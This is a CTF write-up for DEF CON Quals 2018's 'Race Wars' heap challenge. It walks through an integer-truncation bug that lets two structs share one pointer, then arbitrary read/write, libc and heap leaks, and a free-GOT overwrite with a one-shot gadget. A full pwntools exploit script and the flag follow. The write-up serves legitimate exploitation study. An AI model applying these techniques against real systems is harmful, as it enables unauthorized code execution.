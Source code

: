 # Race Wars

We are given a binary. Its functionality is quite boring. It lets you create tires, select chassis, engine, and transmission. Afterwards, you can modify these, and/or race, in which you always lose.

Lets start with static analysis. The functionality is also quite bland. There are a ton of branches to each of these options, which assigns different values for different chosen options.

However, there is one big thing of interest you find while reversing. It is the function at 0x400bb6, which is called by all four options, to which values are being assigned. Diving into that function, we quickly find that it serves to allocate memory. There are two branches: if the requested size is greater than 0xfff, then it uses malloc() to allocate memory. However, if it is less, then the binary implements its own malloc implementation with posix_memalign. We also find that for the create tires option, we can control the size, and it mallocs size*32, so we have a controlled malloc size.

Now, custom heap implementations and heaps in general are a pain to statically reverse, so I begin dynamic analysis. Breaking at 0x400b66 and 0x400bb2, I can view the malloc size request and returned pointer. I tried viewing the heap and structs for any overflows and OOBs, to no avail. Then I tried putting in garbage values for tire malloc sizes, and found that huge values causes malloc to return 0x0 and errors out. However, when putting in huge values, I also noticed that, since it gets multiplied by 32, the bits greater than 32 bits get truncated off. So if I can pass in a size of 0x100000000 to malloc, that gets truncated to 0x00000000. I tried entering the tire size 0x100000000/32, and sure enough, the size passed to malloc is 0x0. After playing around with this, I find that the first malloc(0x0) and another malloc(0x18) actually returns the same pointer! We have found our vulnerability - double pointers.

So what can we do with this? The modifying transmission function sounds like a great read and write primitive, because it has built in functionalities to do that for us as long as gear size is large enough. So, if the gear size struct is also the same pointer as another struct we control, then we can modify gear size to an extremely large number, and gain arbitrary read/write primitive. The tire struct is perfect for this, since we control 16 bytes through editing tires:

```
printf("modify what?\n\t(1) width\n\t(2) aspect ratio\n\t(3) construction\n\t(4) diameter\nCHOICE: ");
  __isoc99_scanf("%d", &v5);
  if ( v5 == 2 )
  {
    printf("new aspect_ratio: ", &v5);
    __isoc99_scanf("%d", &v6); //two byte read
    printf("tires are now %d aspect\n", (unsigned __int8)v6);
    *(_WORD *)(a1 + 2) = v6; //two byte write
    goto LABEL_16;
  }
```

So we create a tire and transmission that point to the same malloced chunk. Then we modify tire struct to a huge number by changing all four of its options to -1 (aka 0xffff). Then we can view the transmission, and find that we have arbitrary read and write.

```
tires are now 255 thick
Your Tires are: 655356553565535
modify your car
pick:
        (1) tires
        (2) chassis
        (3) engine
        (4) transmission
        (5) buy new part
        (6) RACE!
CHOICE: 4
choice 4
ok, you have a transmission with 18446744073709551615 gears
which gear to modify?
```

With this, we can leak the heap addresses near the transmission struct, and I found one at offset 0x17. With this we can calculate the address of our transmission struct, and gain read to everything.

Next I leaked libc by reading from putsgot, calculated address of one shot gadget, then overwrote free GOT with it, triggered free, and got a shell.

```python
from pwn import *

def modtire(c, v):
	p.recvuntil('CHOICE: ')
	p.sendline('1')
	p.recvuntil('CHOICE: ')
	p.sendline(str(c))
	p.recvuntil(': ')
	p.sendline(str(v))
def twocomp(val):
	return 0xffffffffffffffff - val + 1
def pow_hash(challenge, solution):
    return hashlib.sha256(challenge.encode('ascii') + struct.pack('<Q', solution)).hexdigest()
def check_pow(challenge, n, solution):
    h = pow_hash(challenge, solution)
    return (int(h, 16) % (2**n)) == 0
def solve_pow(challenge, n):
    candidate = 0
    while True:
        if check_pow(challenge, n, candidate):
            return candidate
        candidate += 1

p = remote('2f76febe.quals2018.oooverflow.io', 31337)
p.recvuntil("Challenge: ")
x=p.recvline()[:-1]
p.recvuntil("n: ")
y=int(p.recvline()[:-1])
p.recv()
ans=solve_pow(x,y)
p.sendline(str(ans))

p.recvuntil('CHOICE: ')
p.sendline('1')
p.sendline(str(0x100000000/32))

p.recvuntil('CHOICE: ')
p.sendline('4')
p.recvuntil('? ')
p.sendline('0')

p.recvuntil('CHOICE: ')
p.sendline('2')
p.sendline('1')

p.recvuntil('CHOICE: ')
p.sendline('3')

modtire('1', '-1')
modtire('2', '-1')
modtire('3', '-1')
modtire('4', '-1')

add = ''
for x in range(0x17, 0x17+8):
	p.recvuntil('CHOICE: ')
	p.sendline('4')
	p.recvuntil('? ')
	p.sendline(str(x + 1))
	p.recvuntil(' is ')
	add += '%02x' % (int(p.recvuntil(',')[:-1]))
	p.sendline('0')
	p.sendline('0')
heapleak = u64(add.decode('hex'))
struct = heapleak - 0x10

distance = struct - 0x603020 #putgot
add = ''
for x in xrange(distance, distance-8, -1):
	p.recvuntil('CHOICE: ')
	p.sendline('4')
	p.recvuntil('? ')
	p.sendline(str(twocomp(x)))
	p.recvuntil('is')
	add += '%02x' % (int(p.recvuntil(',')[:-1]))
	p.sendline('0')
	p.sendline('0')
puts_addr = u64(add.decode('hex'))
print "struct:" + hex(struct)
print 'puts:' + hex(puts_addr)
libc_base = puts_addr - 0x6f690 #put offset
oneshot = libc_base + 0x4526a #oneshot offset
print "oneshot:" + hex(oneshot)
asdf = 0
distance = struct - 0x603018 #free got
for x in xrange(distance, distance - 8, -1):
	p.recvuntil('CHOICE: ')
	p.sendline('4')
	p.recvuntil('? ')
	p.sendline(str(twocomp(x)))
	p.recvuntil('is')
	p.sendline(str(ord(p64(oneshot)[asdf])))
	p.sendline('1')
	asdf += 1

p.recvuntil('CHOICE: ')
p.sendline('6')

p.interactive()
```

## Flag: OOO{4 c0upl3 0f n1554n 5r205 w0uld pull 4 pr3m1um 0n3 w33k b3f0r3 r4c3 w4rz}
